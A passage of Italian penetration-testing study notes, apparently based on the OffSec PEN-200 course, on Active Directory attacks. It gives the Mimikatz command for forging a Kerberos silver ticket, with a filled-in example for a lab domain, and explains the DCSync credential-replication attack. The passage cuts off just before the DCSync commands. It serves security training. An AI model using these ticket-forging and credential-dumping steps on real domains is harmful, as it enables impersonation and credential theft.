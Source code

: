 Domain SID:

```bash
whoami /user
```

Creazione del _silver ticket_:

```bash
kerberos::golden /$SID_NUMBER /domain:$DOMAIN_NAME /ptt /target:$COMPUTER_TARGET $/service:$SERVICE_NAME /rc4:$NTLM_HASH /user:$USER_NAME

Esempio:

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

Comando per mostrare la lista dei ticket Kerberos per confermare che il _silver ticket_ è stato creato e inviato alla sessione corrente:

```bash
klist
```

## 22.2.5. Domain Controller Synchronization

In ambienti grandi, i domini fanno affidamento su più di un domain controller per fornire ridondanza. Il _Directory Replication Service_ (DRS) Remote Protocol utilizza la _replication_ per sincronizzare questi domain controllers ridondanti. Un domain controller potrebbe richiedere un update per uno specifico oggetto utilizzando l'API _IDL_DRSGetNCChanges_.

Fortunatamente (per un attaccante), il domain controller che riceve una richiesta di update non controlla che il mittente sia un domain controller conosciuto, ma verifica solo che il SID associato abbia i giusti privilegi:
- _Replicating Directory Changes_
- _Replicating Directory Changes All_
- _Replicating Directory Changes in Filtered Set_

 Di default, i membri dei gruppi _Domain Admins_, _Enterprise Admins_, e _Administrators_ hanno questi privilegi assegnati. Quindi se si ottiene accesso ad un account che fa parte di uno di questi tre gruppi si può eseguire un attacco _dcsync_ dove si impersonifica un domain controller, abilitando la possibilità di richiedere qualsiasi credenziale utente dal dominio.

Anche in questo caso ci sono due modi per eseguire questo attacco:
1) Da kali
2) Dalla macchina windows

To perform this attack, we'll use Mimikatz on a domain-joined Windows machine, and _impacket-secretsdump_[5](https://portal.offsec.com/courses/pen-200-44065/learning/attacking-active-directory-authentication-46102/performing-attacks-on-active-directory-authentication-46172/domain-controller-synchronization-46110#fn-local_id_565-5) on our non-domain joined Kali machine for the examples of this section.

1) Utilizzo di _impacket-secretsdump per eseguire l'attacco e di _hashcat_ per ricavare la password:
